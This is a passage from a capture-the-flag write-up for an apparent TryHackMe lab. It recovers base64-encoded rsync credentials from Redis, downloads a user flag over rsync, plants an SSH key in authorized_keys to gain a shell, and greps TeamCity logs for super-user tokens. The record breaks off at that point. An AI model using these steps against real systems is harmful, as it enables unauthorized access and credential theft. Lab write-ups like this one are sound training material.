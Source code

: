 And investigating further we got 

```bash
> type authlist
list
> lrange authlist 1 999999
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```

We got some base64 encoded strings. Let's decode it and we got `Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v`.

# Rsync

Let's look for directory shares.

rsync -av --list-only rsync://$IP:873

```bash
files          	Necessary home interaction
```

rsync -av --list-only rsync://rsync-connect@$IP/files

And on entering the password we got a long list of files and we have our users file location `sys-internal/user.txt`.

rsync rsync://rsync-connect@$IP/files/sys-internal/user.txt user.txt

# users.txt

```
THM{da7c20696831f253e0afaca8b83c07ab}
```

Also we got .ssh folder but it's empty. I was referring Hacktricks for this whole room so it said we can upload files too. Let's create a pair of ssh key and get access.

rsync id_rsa.pub rsync://rsync-connect@10.10.57.247/files/sys-internal/.ssh/authorized_keys

ssh sys-internal@$IP -i id_rsa

And we are in as sys-internal. Actually I ran linpeas first and found some ports. And look at home dir. we can find /Teamcity folder. We can see that we are running Tomcat and Teamcity. Let's look at the logs and conf file.

cd TeamCity/logs/ && grep -R pass

```bash
catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 2112115144787772241 (use empty username with the token as the password to access the server)
```
